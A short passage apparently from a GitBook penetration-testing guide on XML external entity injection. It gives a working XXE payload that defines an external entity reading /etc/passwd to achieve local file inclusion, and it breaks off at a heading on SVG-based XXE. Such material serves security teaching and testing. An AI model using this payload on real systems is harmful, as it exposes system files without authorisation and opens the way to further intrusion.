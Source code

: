 <figure><img src="../../../../.gitbook/assets/xxe_detection.png" alt=""><figcaption><p>Figure 2: Testing XML fields.</p></figcaption></figure>

By adding a simple XML payload we can achieve LFI (Figure 3).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

<figure><img src="../../../../.gitbook/assets/xxe_lfi.png" alt=""><figcaption><p>Figure 3: LFI via XXE.</p></figcaption></figure>

### SVG XXEI -> LFI
